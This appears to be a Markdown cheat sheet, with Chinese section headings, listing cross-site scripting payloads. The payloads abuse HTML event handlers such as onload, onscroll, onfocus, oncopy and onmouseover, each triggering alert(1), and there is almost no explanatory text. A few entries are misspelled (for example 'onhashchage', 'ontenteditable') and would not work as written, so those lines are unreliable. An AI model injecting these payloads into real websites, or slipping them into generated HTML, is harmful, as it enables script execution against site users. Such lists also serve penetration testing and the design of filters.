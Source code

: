 ```<svg onload=alert(1)>```
```<body onload=alert(1)>```

```<body onpageshow=alert(1)>```

```<body onfocus=alert(1)>```

```<body onhashchage=alert(1)><a href=#x>click this!#x```

```<body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x```

```<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><x id=x>#x```

```<body onresize=alert(1)>press F12!```

```<body onhelp=alert(1)>press F1! (MSIE)```

# 其他攻击向量
```<marquee onstart=alert(1)>```

```<marquee loop=1 width=0 onfinish=alert(1)>```

```<audio src onloadstart=alert(1)>```

```<video onloadstart=alert(1)><source>```

```<input autofocus onblur=alert(1)>```

```<keygen autofocus onfocus=alert(1)>```

```<form onsubmit=alert(1)><input type=submit>```

```<select onchange=alert(1)><option1>1<option>2```

```<menu id=x contextmenu=x onshow=alert(1)>right click me!```

# 自定义标签执行js

```<x ontenteditable onblur=alert(1)>lose focus!```

```<x onclick=alert(1)>click this!```

```<x oncopy=alert(1)>copy this!```

```<x oncontextmenu=alert(1)>right click this!```

```<x oncut=alert(1)>copy this!```

```<x ondblclick=alert(1)>double click this!```

```<x ondrag=alert(1)>drag this!```

```<x contenteditable onfocus=alert(1)>focus this!```

```<x contenteditable oninput=alert(1)>input here! ```

```<x contenteditable onkeydown=alert(1)>press any key!```

```<x contenteditable onkeypress=alert(1)>press any key!```

```<x contenteditable onkeyup=alert(1)>press any key!```

```<x onmousedown=alert(1)>click this!```

```<x onmousemove=alert(1)>hover this!```

```<x onmouseout=alert(1)>hover this!```

```<x onmouseover=alert(1)>hover this!```

```<x onmouseup=alert(1)>click this!```
```